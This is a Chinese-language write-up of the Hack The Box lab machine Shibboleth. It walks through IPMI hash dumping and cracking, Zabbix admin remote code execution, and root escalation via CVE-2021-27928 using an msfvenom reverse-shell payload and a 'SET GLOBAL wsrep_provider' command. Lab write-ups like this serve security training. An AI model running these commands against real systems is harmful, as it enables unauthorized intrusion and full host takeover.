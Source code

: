 ```yaml
---
title: Shibboleth
date: 2022-01-13 17:37:59
tags: Hack The box
categories: 中间件
---
```


## 信息收集
只做一个简单的扫描，发现只开放了web服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/97c60e806c6d413eb3524efdf5cbdb9c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/19faecaea42a449ba7cf1bc2244db896.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
fuzz了一下路径，并没有发现任何有价值的路径信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/7d1c7ad510a74a089d925f6c3b674ead.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

我们将思路转换到子域名挖掘上，发现了三个子域，我们将它们逐一访问的时候发现都同时指向同一个登录页面

```bash
wfuzz -c -u "http://shibboleth.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hw 26 -H "HOST:FUZZ.shibboleth.htb"
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/520287b9831e4eafa7e8f56cb80b2463.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/5cd36cb1f22d4ffc97f718b00a6170eb.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 漏洞利用
我们对这个表单进行SQL注入漏洞的检测时，并没有发现存在注入，也没有发现对应的中间件漏洞，到这里我的思路断了。我在反思它是个靶场肯定是有漏洞点的，可能是我信息收集那块做得不够细致。因此我对靶场进行UDP端口的扫描，查看是否存在漏扫的地方。扫描时发现开放了623端口的asf-rmcp服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/8d6296236bc149bb9e96a7c0219733f9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

在搜索引擎上搜索时，发现了对应的漏洞利用复现。漏洞利用的方式是使用MSF框架的对应模块进行漏洞的检测
![在这里插入图片描述](https://img-blog.csdnimg.cn/c1bceb8bee654c4d82f8bd3ecd59c2a9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/53abaaec2bdc4593a1cc5de0b865f47e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
设置好对应的参数后，发现IPMI的版本是2.0
![在这里插入图片描述](https://img-blog.csdnimg.cn/5430d56678624006bcb42e414ff0a16e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们可以尝试使用下载哈希的模块，尝试能否将用户对应的hash值下载下来。我们发现对应的管理员的哈希值，我们可以将哈希值保存下来，使用hashcat进行密码破解，因为对应的加密方式是IPMI，因此我们可以筛选一下![在这里插入图片描述](https://img-blog.csdnimg.cn/8ddb20fb646844cb8c2c59c9be1da693.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
对应的编号是7300，解密出来的密码是`ilovepumkinpie1`。

```bash
hashcat -m 7300 hash /usr/share/wordlists/rockyou.txt
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/9d0ed66d101f41c593497ac9adc49a27.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/8bba274825dc42cba553281a16464f09.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们可以拿这个账号密码登录进zabbix的管理员页面
![在这里插入图片描述](https://img-blog.csdnimg.cn/85d21ce1938d44168a00a9fbfc97ee33.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
查阅对应的漏洞复现文章发现，在Configuration的hosts处，可以添加对应的脚本，实现RCE漏洞的执行
![在这里插入图片描述](https://img-blog.csdnimg.cn/aa4967975c894ae188bd13955e787130.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/99a13f40d5a6484dac50075d8cf77c10.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/b9ceff97b59546599dedd240624fca25.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们在key处添加我们要执行的RCE代码内容，点击添加并执行，期间我们开启对应的监听端口，可以反弹一个shell到本地终端上
![在这里插入图片描述](https://img-blog.csdnimg.cn/89a3911aa36b420887970de69515048e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/c0622899df61434e924f6d2b2b2ab3b2.png)
## 提权
我们确实是获得了一个终端，但是并没有权限查看到user.txt的内容，我们得想办法提权到ipmi-svc这个账户的权限上
![在这里插入图片描述](https://img-blog.csdnimg.cn/b4b5288c956948ba9dd4b917f5396c02.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们下意识可以尝试，使用Administrator账户的密码看看是否能成功。令人很意外的是，居然成功了
![在这里插入图片描述](https://img-blog.csdnimg.cn/586fc07ad39344f8858fd00d7dbdb3d1.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那下一步就是拿取root权限了，我上传了个linpeas.sh脚本到目标主机上进行检查，但是并没有发现任何有价值的信息。但是我们查看本地的端口时，发现开放了mysql服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/1cabb3c6e28b43f5a42c5b3bb9d2e9c8.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们进入到zabbix的目录上，筛选信息发现了数据库的密码为`bloooarskybluh`，用户名为`zabbix`
![在这里插入图片描述](https://img-blog.csdnimg.cn/2423387ead4747a28f952d7b47bab881.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/c46ad8d982584668af369bfe0217eb1c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们尝试登录到数据库上，数据库的版本为`10.3.25`
![在这里插入图片描述](https://img-blog.csdnimg.cn/c99b6814e5f94d5796ef64db705d2fe9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我尝试过搜寻数据库中对应账户的密码进行解密，但是都无功而返。切换一种思路，我搜寻到了mysql对应版本的漏洞信息。文章中说明了这个版本的mysql存在RCE漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/88dd5b53214b46a1b29cf0f8250eadfd.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我在github上找到一个漏洞利用的脚本，这是链接[https://github.com/Al1ex/CVE-2021-27928](https://github.com/Al1ex/CVE-2021-27928)
![在这里插入图片描述](https://img-blog.csdnimg.cn/11fbc233c5ad4caa848e064466e57189.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
根据提示来，我们先生成一个对应的payload，再开启监听反弹一个root的shell到本地上

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.30 LPORT=4445 -f elf-so -o payload.so
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/ba5f1d4ea3274eadaa72fd212301296f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后把payload文件上传到目标主机上
![在这里插入图片描述](https://img-blog.csdnimg.cn/d37c053a543346549047aa87a86b4409.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
最后登录到mysql里，执行这么一段指令`SET GLOBAL wsrep_provider="/tmp/payload.so";`，获得root权限
![在这里插入图片描述](https://img-blog.csdnimg.cn/cab9ce62d2c54b2d8ef5236665166e5d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 总结
这个靶机还是相当出色的，首先一般的扫描只能扫描到80的web服务，因为web服务最多就只能发掘到子域的登录表单上，之后就断思路了。所以还得扫描UDP的端口，这个就不是特别多人能够想得到，进行登录操作后，又得考验对zabbix的RCE漏洞利用，这个要求也比较高，然后再到root的提权上，很充分地考查了对中间件安全的知识，总体来说这是一个相当出色的靶机。
